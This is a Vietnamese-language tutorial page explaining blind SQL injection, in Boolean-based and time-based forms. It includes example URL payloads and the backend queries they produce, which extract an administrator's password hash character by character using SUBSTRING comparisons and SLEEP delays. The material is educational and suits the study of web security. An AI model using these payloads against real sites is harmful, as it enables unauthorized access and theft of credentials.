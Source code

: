 ![Inferential SQLi](../img/Screenshot%202022-05-07%20161735.png)

### **2. Inferential SQLi (Blind)**

- Tin tặc gửi Request tới Server và **_phân tích Response_** của Server để nắm được cấu trúc của cơ sở dữ liệu. **_Dữ liệu thực tế không được truyền từ cơ sở dữ liệu tới tin tặc và không thể trực tiếp xem dữ liệu được trích xuất_**. Tin tặc có thể **_xây dựng lại dữ liệu bằng cách gửi các Request cụ thể và quan sát hành vi của Database Server_**.
- Cần **_nhiều thời gian_** để khai thác hơn so với In-band SQLi.
- Có **_2_** kiểu tấn công Blind SQLi chính: **_Boolean-based SQLi_** và **_Time-based SQLi_**.

&nbsp;

#### **2.1. Boolean-based SQLi**

_2.1.1. Định nghĩa_

Tin tặc gửi một truy vấn SQL (**_sử dụng những điều kiện Boolean_**) tới cơ sở dữ liệu và **_ứng dụng sẽ trả về kết quả khác nhau dựa trên việc truy vấn trả về giá trị TRUE hay FALSE_**. Kết quả này cũng ảnh hưởng tới HTTP Response và thêm thông tin trong HTTP Response mà tin tặc sử dụng.

_2.1.2. Khai thác Boolean-based SQLi_

- **_Gửi một điều kiện Boolean mang giá trị FASLE và note lại Response_**.
- **_Gửi một điều kiện Boolean mang giá trị TRUE và note lại Response_**.
- **_Viết một chương trình sử dụng các câu lệnh điều kiện để hỏi cơ sở dữ liệu một loạt câu hỏi TRUE / FALSE và giám sát Response_**.

_2.1.3. Ví dụ_

Ví dụ 1

Example URL

```
www.random.com/products?id=1
```

Backend Query

```
SELECT title FROM products WHERE id=1
```

Payload (TRUE)

```
www.random.com/products?id=1 AND 1=1
```

Backend Query

```
SELECT title FROM products WHERE id=1 AND 1=1
```

Diễn giải

Tin tặc dựa trên việc URL cho thấy rằng Backend sẽ truy vấn sản phẩm dựa theo id mà chèn một đoạn mã SQL vào Query Parameter. Query Parameter này khi được thực thi trên cơ sở dữ liệu thì thay vì trả về sản phẩm, sẽ cho biết liệu sản phẩm với id bất kì có tồn tại hay không. Từ đó, tin tặc có thể lấy được những thông tin nhạy cảm về những sản phẩm sắp ra mắt của công ty.

Ví dụ 2

Users Table

```
Administrator
e3c33e889e0e1b62cb7f65c63b60c42bd77275d0e730432fc37b7e624b09ad1f
```

Payload

```
www.random.com/products?id=1 AND SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 's'
```

Backend Query

```
SELECT title FROM products WHERE id=1 AND SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 's'
```

Payload

```
www.random.com/products?id=1 and SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 'e'
```

Backend Query

```
SELECT title FROM products WHERE id=1 AND SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 'e'
```

Diễn giải

Không có gì được trả về trên trang → FALSE → ‘s’ không phải kí tự đầu tiên của Hashed Password.  
Tiêu đề của sản phẩm có id là 1 được trả về trên trang → TRUE → ‘e’ là kí tự đầu tiên của Hashed Password.  
Tin tặc sử dụng một chương trình tự động duyệt qua tất cả các trường hợp và xây dựng lại dữ liệu.

&nbsp;

#### **2.2. Time-based SQLi**

_2.2.1. Định nghĩa_

Tin tặc gửi một truy vấn SQL tới cơ sở dữ liệu để **_khiến cơ sở dữ liệu chờ trước khi phản hồi_**. Dựa trên việc Database dừng lại một khoảng thời gian nhất định, sau đó mới trả về kết quả, tin tặc sẽ **_phân tích thời gian được sử dụng bởi cơ sở dữ liệu để biết thực thi truy vấn SQL thành công hay không và xây dựng lại dữ liệu_**.

_2.2.2. Khai thác Time-based SQLi_

- **_Gửi Payload làm tạm dừng ứng dụng trong một khoảng thời gian cụ thể_**.
- **_Viết chương trình sử dụng các câu lệnh điều kiện để hỏi cơ sở dữ liệu một loạt câu hỏi TRUE / FALSE và theo dõi thời gian trả lời_**.

_2.2.3. Ví dụ_

Ví dụ 1

Input

```
www.random.com/products?id=1 AND IF(SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 'a', SLEEP(10), FASLE)
```

Backend Query

```
SELECT * FROM card WHERE id=1 AND IF(SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 'a', SLEEP(10), FASLE)
```

Output

```
Return the product with the id 1 after 10 seconds if the administrator’s hashed password is an 'a'
```

Diễn giải

Nếu kí tự đầu tiên của Hashed Password của người dùng quản trị viên là 'a', chờ 10 giây.  
→ Response cần 10 giây → Kí tự đầu tiên là 'a'  
→ Response khác 10 giây → Kí tự đầu tiên không phải là 'a'  
Tin tặc sử dụng một chương trình tự động duyệt qua tất cả các trường hợp và xây dựng lại dữ liệu.
